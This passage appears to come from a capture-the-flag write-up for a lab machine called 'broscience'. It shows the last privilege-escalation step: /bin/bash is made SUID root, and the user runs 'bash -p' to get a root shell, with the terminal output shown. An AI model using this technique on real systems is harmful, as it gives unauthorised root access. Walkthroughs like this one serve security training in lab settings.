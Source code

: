 After waiting for a while **/bin/bash** will be modified and we can use the suid permissions to become root!

## ROOT

```bash
bill@broscience:~/Certs$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
bill@broscience:~/Certs$ /bin/bash -p
bash-5.1# whoami
root
```